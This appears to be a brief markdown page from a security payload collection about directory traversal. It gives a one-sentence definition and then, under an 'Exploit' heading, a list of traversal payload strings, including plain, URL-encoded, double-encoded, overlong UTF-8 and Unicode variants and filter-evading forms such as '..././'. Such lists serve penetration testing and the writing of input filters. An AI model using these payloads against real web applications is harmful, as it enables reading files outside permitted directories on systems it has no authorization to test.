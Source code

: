 # Traversal Directory
A directory traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.	

## Exploit

```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

## Thanks to
* 